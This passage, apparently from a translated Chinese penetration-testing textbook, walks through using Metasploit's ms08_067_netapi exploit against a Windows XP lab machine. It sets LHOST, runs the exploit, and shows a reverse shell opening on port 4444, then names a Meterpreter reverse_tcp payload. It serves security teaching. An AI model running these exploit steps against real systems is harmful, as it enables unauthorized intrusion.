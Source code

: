 `LHOST` ❶ 是我们在 Kali 机器上的本地主机，即我们希望目标机器连接回来的 IP 地址。如果你忘记了 IP 地址，可以直接在 Msfconsole 中输入 Linux **`ifconfig`** 命令来查找。

```
msf  exploit(ms08_067_netapi) > **ifconfig**
[*] exec: ifconfig

eth0      Link encap:Ethernet  HWaddr 00:0c:29:0e:8f:11
          inet addr:192.168.20.9  Bcast:192.168.20.255  Mask:255.255.255.0

*--snip--*
```

现在设置 `LHOST` 选项，输入 **`set LHOST 192.168.20.9`**。保持 `LPORT` 和 `EXITFUNC` 的默认值，`LPORT` 是连接回来的本地端口，`EXITFUNC` 指示 Metasploit 如何退出。然后输入 **`exploit`**，如 示例 4-10 所示，再次发送我们的利用代码，并等待 shell 出现。

示例 4-10. 运行利用代码

```
msf  exploit(ms08_067_netapi) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444 ❶
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX) ❷
[*] Attempting to trigger the vulnerability...
[*] Command shell session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1374)
    at 2015-08-31 10:29:36 -0400

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

恭喜你：你成功地利用了你的第一个机器！

事情是这样的。当我们输入 `exploit` 时，Metasploit 在端口 4444 上打开一个监听器，以捕获来自目标 ❶ 的反向 shell。然后，由于我们将目标保持为默认的 `Automatic Targeting`，Metasploit 会指纹识别远程 SMB 服务器，并为我们选择合适的利用目标 ❷。一旦选择了利用代码，Metasploit 就会发送利用字符串，并尝试控制目标机器并执行我们选择的有效载荷。由于利用成功，命令 shell 被我们的处理程序捕获。

要关闭这个 shell，按 ctrl-C，然后在提示符下输入 **`y`** 来中止会话。

```
C:\WINDOWS\system32>**^C**
Abort session 2? [y/N]  **y**

[*] Command shell session 2 closed.  Reason: User exit
msf  exploit(ms08_067_netapi) >
```

要返回到 Meterpreter shell，您可以选择一个名称中带有 Meterpreter 的有效载荷，如 *windows/meterpreter/reverse_tcp*，然后再次利用 Windows XP 目标。

## Msfcli
